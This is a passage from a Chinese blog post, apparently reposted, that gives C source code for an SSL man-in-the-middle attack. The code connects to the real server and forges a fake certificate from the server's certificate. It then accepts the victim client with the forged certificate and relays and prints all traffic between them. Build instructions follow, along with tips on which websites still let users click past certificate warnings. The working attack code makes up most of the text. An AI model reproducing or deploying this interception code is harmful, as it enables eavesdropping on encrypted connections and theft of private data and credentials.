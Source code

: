 ```
            SSL *ssl_to_client, *ssl_to_server;
    
            // 通过获得的原始目的地址，连接真正的服务器，获得一个和服务器连接的socket
            int socket_to_server = get_socket_to_server(&original_server_addr);
            // 通过和服务器连接的socket建立一个和服务器的SSL连接
            ssl_to_server = SSL_to_server_init(socket_to_server);
            if (SSL_connect(ssl_to_server) < 0)
                SSL_Error("Fail to connect server with ssl!");
            printf("%d, SSL to server\n", sum);
    
            // 从服务器获得证书，并通过这个证书伪造一个假的证书
            fake_x509 = create_fake_certificate(ssl_to_server, key);
            // 使用假的证书和我们自己的密钥，和客户端建立一个SSL连接。至此，SSL中间人攻击成功
            ssl_to_client = SSL_to_client_init(socket_to_client, fake_x509, key);
            if (SSL_accept(ssl_to_client) <= 0)
                SSL_Error("Fail to accept client with ssl!");
            printf("%d, SSL to client\n", sum);
    
            // 在服务器SSL连接和客户端SSL连接之间转移数据，并输出服务器和客户端之间通信的数据
            if (transfer(ssl_to_client, ssl_to_server) < 0) {
                printf("%d, connection shutdown\n", sum);
                SSL_terminal(ssl_to_client);
                SSL_terminal(ssl_to_server);
                shutdown(socket_to_server, SHUT_RDWR);
                shutdown(socket_to_client, SHUT_RDWR);
                X509_free(fake_x509);
            }
        } else {
            ++sum;
        }
    }
    
    EVP_PKEY_free(key);
    return 0;
}
```

补充：
编译时找不到openssl/ssl.h，需要安装libssl：
  `apt-get install libssl-dev`
编译时找不到ssl相关函数的，需要添加GCC参数：
  `-lssl -lcrypto`
最近浏览器加强了对证书的检查，有可能在警告页找不到继续浏览的选项，但不是所有的网站都是这样的，如果gmail不行，可以试试12306。

**本文来源**：本文转载自http://blog.sina.com.cn/s/blog_4a898cfb0100t8j7.html 。